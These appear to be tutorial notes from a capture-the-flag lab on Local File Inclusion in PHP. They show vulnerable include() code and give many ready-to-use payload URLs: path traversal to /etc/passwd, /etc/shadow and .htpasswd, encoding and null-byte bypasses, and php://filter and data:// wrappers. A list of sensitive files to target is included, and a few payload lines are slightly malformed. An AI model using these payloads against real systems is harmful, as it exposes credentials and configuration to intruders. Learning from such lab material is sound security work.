 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

`https://website-example.com/?page=filename.php`

`https://website-example.com/?page=../../../../etc/test.txt`

`http://www.example_target_website.com/download.php?file=document.html`

`http://www.example_target_website.com/download.php?file=../../../../etc/passwd`

`https://example-vulnerable-website.com/?module=contact.php`

`https://example-vulnerable-website.com/?module=/etc/passwd`

`https://example-vulnerable-website.com/?module=uploads/image123.gif`

`https://example-vulnerable-website.com/?helpfile=login.txt`

`https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd`

`https://example-vulnerable-website.com/?download=brochure.pdf`

`https://example-vulnerable-website.com/?download=../include/connection.php`

## LFI

### An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

    `include
    require
    include_once 
    require_once `

The following is an example of PHP code that is vulnerable to LFI.

`<?PHP 
	include($_GET["file"]);
?>`   

### The PHP code above uses a GET request via the URL parameter file to include the file on the page. The request can be made by sending the following HTTP request: http://example.thm.labs/index.php?file=welcome.txt to load the content of the welcome.txt file that exists in the same directory

`/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdlin`

`http://example.thm.labs/page.php?file=/etc/passwd 

http://example.thm.labs/page.php?file=../../../../../../etc/passwd

http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00

http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 

http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd`

### The PHP filter wrapper is used in LFI to read the actual PHP page content.
	we can use the PHP filter to display the content of PHP files in other encoding formats such as `base64` or `ROT13`.

`http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd`

### We can read the index.php file using a PHP filter; we get errors because the web server tries to execute the PHP code. To avoid this, we can use a PHP filter while base64 or ROT13 encoding the output as follows:

`http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd 

http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd'

###  eg. ``echo "AoC3 is fun!" | base64 QW9DMyBpcyBmdW4hCg==`
        `echo "QW9DMyBpcyBmdW4hCg==" | base64 --decode AoC3 is fun!`

### Now we can include our base64 data into the vulnerable page as follows,
    `http://example.thm.labs/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==`

### we provide a vulnerable web application that logs users' requests into a log file to which the webserver user has access. Once we log into the web application, we can visit the log page at 
`https://LAB_WEB_URL.p.thmlabs.com/logs.php.`            
            

